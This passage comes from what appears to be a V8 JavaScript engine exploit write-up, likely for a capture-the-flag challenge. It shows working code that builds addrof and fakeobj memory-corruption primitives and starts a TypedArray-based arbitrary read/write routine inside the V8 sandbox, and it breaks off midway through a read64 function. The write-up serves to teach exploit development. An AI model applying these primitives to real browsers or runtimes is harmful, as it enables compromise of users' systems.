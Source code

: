 Having to re-run the vulnerable function and create a bunch of arrays just to get a single `fakeobj` reference is clunky, and will quickly clutter the heap. But we can use the fake array we just created to do things in a much more elegant way. Here's how:

```javascript
function addrof(obj) {
	arr3[0] = obj;
	return ftoi(fake_arr[3]) & 0xFFFFFFFFn;
}

function fakeobj(addr) {
	fake_arr[3] = itof(addr);
	return arr3[0];
}
```

The key thing to note is that _both_ `arr3` and `fake_arr` can view the contents of `arr3`'s elements structure. However, as `fake_arr` is of type `PACKED_DOUBLE_ELEMENTS`, it interprets the 8-byte concatenation of `arr1` and `arr2`'s compressed pointers as a float instead. Effectively, by placing an object reference through `arr3[0]` and then reading it through `fake_arr[3]`, we can leak the raw address of said object, as a compressed pointer. This is our `addrof` primitive.

Similarly, we can do the reverse. By writing an appropriately crafted float through `fake_arr[3]` and grabbing a reference through `arr3[0]`, we can acquire a reference to a fake object.

Furthermore, by editing the length fields of `fake_arr`'s metadata and elements structures through `arr2`, we can read and write float values up to `0xFFFFFFFE * 8 = 0x7FFFFFFF0` bytes past the start of the `fake_arr` elements structure.

But what if I want to read and write upstream instead?

### TypedArrays to the rescue

In [this writeup](https://blog.kylebot.net/2022/02/06/DiceCTF-2022-memory-hole/), international pwn god kylebot describes how to make use of TypedArrays to gain arbitrary read and write within the V8 sandbox. I suggest reading his article to get a fuller understanding of what's going on, but I will summarise the important points below.

In short, a TypedArray metadata structure contains the necessary information to compute the address of the backing store. Formerly, this value was an _uncompressed_ full 8-byte pointer `data_ptr`; gaining control over this value would essentially give you arbitrary read/write to _anywhere_, including outside the V8 sandbox.

However, this has since been changed; we now store 4-byte values `base_pointer` and `external_pointer`, and `data_ptr` is computed as `v8_base_address + (external_pointer << 8) + base_pointer`. This effectively limits us to a 40-bit address space.

It's not quite a sandbox escape, but it's good enough for our purposes. All we have to do is overwrite `external_pointer` with a value of our choosing, then access the desired memory region through the TypedArray. The code below shows how we could do this:

```javascript
// Now let's try to get arbitrary read/write (within a 2^40 byte region).
var aarw_arr = new Uint8Array(256);
var idx = (addrof(aarw_arr) - addrof(arr2)) >> 3n; // Note: everything is misaligned by 4, so the map is fake_arr[idx] & 0xFFFFFFFF00000000n
arr2[2] = itof(elem_addr + 32n | (smi(idx+7n) << 32n));
arr2[3] = itof(fixed_dbl_map | (smi(idx+7n) << 32n));

function read64(addr) { // a compressed address
	let new_backing_ptr = (addr - 1n) >> 8n;
	let offset = (addr - 1n) & 0xFFn;
	fake_arr[idx+6n] = itof(new_backing_ptr << 32n);
	let res = 0n;
	for (let i=0n; i<8n; i++) {
		res += (BigInt(aarw_arr[offset+i]) << (i*8n));
	}
	return res;
```